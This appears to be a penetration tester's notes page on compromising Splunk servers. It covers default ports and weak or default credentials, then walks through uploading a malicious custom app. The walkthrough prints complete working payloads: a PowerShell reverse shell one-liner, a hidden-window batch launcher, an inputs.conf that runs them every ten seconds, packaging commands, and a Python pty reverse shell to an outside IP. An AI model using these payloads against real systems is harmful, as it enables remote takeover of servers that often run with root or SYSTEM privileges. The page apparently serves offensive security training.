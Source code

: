 # splunk
## important info !!!
it probably needs https when we try to load it in browser!!!!!  
## info
Splunk does not suffer from many exploitable vulnerabilities.  
The biggest focus of Splunk during an assessment would be weak or null authentication.  
Admin access to Splunk gives us the ability to deploy custom applications that can be used to quickly compromise a Splunk server.  
Often runs as root on Linux or SYSTEM on Windows systems in internal networks.  
While uncommon, we may encounter Splunk externally facing at times.  
The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.  
It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about.  
Splunk has multiple ways of running code, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts.  
As Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts.  
Also, every Splunk installation comes with Python installed, so Python scripts can be run on any Splunk system.  
## default port
The Splunk web server runs by default on port 8000.  
Port 8089, the Splunk management port for communication with the Splunk REST API.  
## default credentials
On older versions of Splunk, the default credentials are admin:changeme  
The latest version of Splunk sets credentials during the installation process.  
If the default credentials do not work, it is worth checking for common weak passwords such as admin, Welcome, Welcome1, Password123, etc.  
## public vulnerabilites
https://www.exploit-db.com/exploits/40895  
https://www.cvedetails.com/vulnerability-list/vendor_id-10963/Splunk.html  
## exploitation (if auth was successfull or no auth was needed)
https://github.com/0xjpuff/reverse_shell_splunk  
* First need to create a custom Splunk application using the following directory structure.
  * splunk_shell/
  * splunk_shell/bin
  * splunk_shell/default
* The bin directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our inputs.conf file.
* Our reverse shell will be a PowerShell one-liner.
* PS reverse shell code
<pre>
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
</pre>
* The inputs.conf file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present. More info here: https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf
* inputs.conf content:
<pre>
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 
[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
</pre>
* We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.
<pre>
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
</pre>
* Once the files are created, we can create a tarball or .spl file.
<pre>
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
</pre>
* https://10.129.139.196:8000/en-US/manager/search/apps/local
* Before uploading the malicious custom app, let's start a listener using Netcat or socat.
* Choose Install app from file and upload the application.
* On the Upload app page, click on browse, choose the tarball we created earlier and click Upload.
* As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to Enabled.
### linux exploitation
* If we were dealing with a Linux host, we would need to edit the rev.py Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.
<pre>
import sys,socket,os,pty
ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
</pre>
